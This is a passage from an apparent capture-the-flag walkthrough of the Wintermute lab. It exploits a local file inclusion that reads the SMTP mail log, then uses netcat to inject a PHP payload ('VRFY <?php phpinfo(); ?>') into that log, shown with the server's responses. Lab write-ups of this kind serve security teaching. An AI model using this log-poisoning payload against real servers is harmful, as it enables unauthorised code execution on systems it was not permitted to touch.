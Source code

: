 ![](/assets/images/wintermute/screenshot-7.png)

This page is including files with **.log** extension, through the **bolo** parameter we include the **/var/log/mail.log** file without the extension, and we can see the logs from SMTP service.

![](/assets/images/wintermute/screenshot-8.png)

We can inject php code into the SMTP log file, we insert the **phpinfo()** function to connect to the SMTP service on port 25. 

```console
root@kali:~$ nc -v 192.168.179.180 25
straylight [192.168.179.180] 25 (smtp) open
220 straylight ESMTP Postfix (Debian/GNU)
VRFY <?php phpinfo(); ?>
501 5.1.3 Bad recipient address syntax
```
